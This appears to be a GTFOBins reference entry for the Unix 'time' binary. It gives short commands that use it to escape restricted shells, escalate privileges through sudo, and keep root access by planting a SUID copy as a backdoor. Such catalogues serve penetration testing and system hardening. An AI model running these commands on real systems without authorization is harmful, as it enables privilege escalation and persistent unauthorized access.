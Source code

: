# GTFOBin: time

Note that the shell might have its own builtin time implementation, which may behave differently than` /usr/bin/time`, hence the absolute path.

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
/usr/bin/time /bin/sh
```

## SUID

If the binary has the SUID bit set, it does not drop the elevated privileges and may be abused to access the file system, escalate or maintain privileged access as a SUID backdoor. If it is used to run `sh -p`, omit the `-p` argument on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which time) .

./time /bin/sh -p
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

```
sudo /usr/bin/time /bin/sh
```